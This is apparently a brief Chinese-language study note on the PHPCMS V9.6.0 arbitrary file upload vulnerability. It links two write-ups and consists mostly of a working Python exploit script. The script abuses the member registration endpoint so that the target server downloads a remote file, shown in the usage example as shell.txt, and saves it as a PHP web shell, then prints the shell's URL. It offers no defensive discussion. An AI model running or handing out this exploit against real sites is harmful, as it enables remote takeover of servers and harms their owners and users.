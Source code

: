 # 知识点
前台任意文件上传<br />[PHPCMS_V9.6.0任意文件上传漏洞分析 - 腾讯云开发者社区-腾讯云](https://cloud.tencent.com/developer/article/1802267)<br />[PHPCMS_V9.2任意文件上传getshell漏洞分析](https://mp.weixin.qq.com/s?__biz=MzU4NTY4MDEzMw==&mid=2247489053&idx=1&sn=de7468d2e9605a23aab7f21bc1c31ae4&scene=21#wechat_redirect)
# 思路
```php
'''
version: python3
Author: Tao
'''
import requests
import re
import random
import sys

def anyfile_up(surl,url):
    url = "{}/index.php?m=member&c=index&a=register&siteid=1".format(url)
    data = {
        'siteid': '1',
        'modelid': '1',
        'username': 'Tao{}'.format(random.randint(1,9999)),
        'password': '123456',
        'email': 'Tao{}@xxx.com'.format(random.randint(1,9999)),
        'info[content]': '<img src={}?.php#.jpg>'.format(surl),
        'dosubmit': '1',
        'protocol': ''
    }
    r = requests.post(url, data=data)
    return_url = re.findall(r'img src=(.*)&gt',r.text)
    if len(return_url):
        return return_url[0]
if __name__ == '__main__':
    if len(sys.argv) == 3:
        return_url = anyfile_up(sys.argv[1],sys.argv[2])
        print('seccess! upload file url: ', return_url)
    else:
        message = \
        """
        python3 anyfile_up.py [上传内容URL地址] [目标URL]
        example: python3 anyfile_up.py http://www.tao.com/shell.txt http://www.phpcms96.com
        """
        print(message)
```
